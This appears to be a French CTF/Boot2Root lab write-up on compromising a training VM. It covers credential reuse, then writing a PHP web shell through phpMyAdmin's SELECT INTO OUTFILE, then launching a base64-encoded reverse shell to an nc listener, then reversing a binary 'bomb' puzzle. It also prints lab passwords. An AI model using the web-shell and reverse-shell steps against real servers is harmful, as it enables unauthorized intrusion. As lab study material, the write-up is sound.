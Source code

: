 # Forum

## Rappel

Utilisateurs: 
- admin
- lmezard
- qudevide
- zaz
- wandre
- thor

Mot de passe: `!q\]Ej?*5K5cy*AJ`

En essayant ce mdp un peu partout (ssh puis forum) avec tous les users connus,
on trouve que ce mdp appartient à lmezard sur le forum.

## Gagner l'acces

Depuis la page utilisateur de lmezard, on trouve son mail
`laurie@borntosec.net`

On tente alors de se connecter a son webmail via la route `/webmail`
avec le meme mot de passe et ça fonctionne !

on lit le mail `DB Access`, il contient le couple d'identifiants
`root:Fg-'kKXBj87E:aJ$` qui devrait correspondre aux identifiants de la DB, ou de phpmyadmin

on tente alors de se connecter a PHPMyadmin, succes
On explore alors un peu, on tente d'identifer les hash des mots de passe, sans succes
on passe lmezard en admin du forum, ça ne nous aide pas plus...

## Reverse shell

Apres beaucoup de temps a chercher et tenter des trucs, on a une idée:

Utiliser la query console phpmyadmin pour créer un reverse shell php et le lancer via "forum"
Le probleme etant qu'on ne sait pas ou on peux ecrire, ni ou ecrire pour lancer un script

On télécharge alors my little forum a la version correspondante,
trouvée sur la page "update" du mode admin (finalement ça aura servi), qui est `2.3.4`

Et on tente d'explorer l'arborescence du forum, en mirroir avec ce qu'on a téléchargé.
Le seul chemin qui nous permettait à priori de lancer du php est le chemin `/forum/templates_c/<fichier>.php`

On tente alors d'ecrire a cet endroit, d'abord avec un `phpinfo()` pour tester
En supposant que le forum est rangé dans `/var/www/forum`

```SQL
SELECT '<?php phpinfo() ?>' INTO OUTFILE "/var/www/forum/templates_c/info_file.php"
```
Et ça fonctionne ! Acceder a `https://<ip>/forum/templates_c/info_file.php` renvoie bien les infos sur PHP

On fait alors la meme avec un fichier qui va ecouter le query parameter `cmd`,
l'executer dans un shell et nous renvoyer le resultat:

```SQL
SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE "/var/www/forum/templates_c/shell.php"
```
(trouvable dans `scripts/shell.php`)

On accede ensuite a `https://<ip>/forum/templates_c/shell.php?cmd=whoami` pour tester si ça fonctionne
on reçoit `www-data` ça fonctionne donc bien.

On sonde un peu pour avoir plus d'infos, notamment la présence ou non de python,
python est bien présent (`which python` retourne un resultat concluant)

On tente alors un script python de reverse shell connu (trouvable dans `scripts/shell.py.sh`),
mais par precaution pour eviter tout soucis avec des caracteres non gérés
on le passe en base64 puis on url encode la commande suivante

```
printf "<reverse shell en base64>" | base64 -d | sh
```
Ça décode code en base64 et puis ça le lance dans shell

De notre coté on lance netcat en mode écoute avec la commande suivante:
```
nc -nlvp <PORT>
```

On lance le script grace a notre fichier PHP et hop, ça fonctionne !

On stabilise le shell a l'aide du protocole suivant:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
puis CTRL-Z
```
stty raw -echo; fg
```
et enfin
```
export TERM=xterm
```

On a maintenant un reverse shell propre sur le serveur.

## Sur le serveur

Une fois sur le serveur on explore un peu.
Notre première trouvaille intéressante est dans `/home`
on y trouve le dossier `LOOKATME` qui est le seul dossier accessible.
Dedans on voit un fichier `password` nous donnant les credentials suivant:
`lmezard:G!@M6f4Eatau{sF" `

On essaie ses credentials en ssh puis en ftp,
succès sur le ftp. On explore ce qui est a disposition, deux fichiers
`fun` et `README`

On les télécharge sur notre machine et on comprend par le readme que c'est un puzzle
> Complete this little challenge and use the result as password for user 'laurie' to login in ssh

en faisant la commande `file` sur le fichier `fun`, on y comprend que c'est une archive tar.
on l'extrait et on regarde son contenu.

Plein de fichiers PCAP contenant des portions d'un programme en C.
Les fichiers sont dans le désordre mais son numérotés.
A l'aide de du script `merge.py` on remet les fichiers dans l'ordre et on les concatene
dans un seul fichier.

On retire les données poubelles avec `sanitize.sh`, et encore un peu de traitement a la main.
On compile le programme et hop

```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

on s'execute et ça fonctionne, on est connectés en ssh en tant que laurie
(mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`)

Depuis le compte de laurie, on trouve deux fichiers, bomb et readme, encore une enignme.

## Da bomb
La bombe a 6 niveaux, chaque niveau a son code. Le mot de passe de thor correspond
aux 6 codes cote a cote.

Notre premier reflexe est de décompile le code avec radare2 et gihdra, selon nos préférences.

Certains niveaux sont plutot simples, ne constituent que d'une string écrite en clair
d'autres sont des algorithmes plus complexes.

Nous avons porté les codes dans le script `defuser.py`. Celui contient ou les solutions en dur
ou l'algorithme inversé qui permet d'obtenir le code.

Le seul vraiment complexe est le niveau 6, nous avons deviné qu'il fallait
une combinaison de 6 chiffres uniques allant de 1 a 6 inclus.

Nous avons alors mis en place un script qui désamorce la bombe, en tentant
les combinaisons possibles. Petit hic, bien que la bombe soit désarmocée
le mot de passe ne fonctionne pas...
(voir `defuser.bash` et `defuser.py`)

### Secret phase
En regardant le code décompilé, nous avons constaté qu'il existe une phase secrete
accessible en rajoutant "austinpowers" a la 4eme phase

TODO: Comprendre comment arriver la
TODO: Dechiffrer phase secrete

Le code obtenu est finalement:
`Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Sources

Oneliners de reverse shell: https://0xss0rz.github.io/2020-05-10-Oneliner-shells/
Stabiliser un reverse shell: https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal
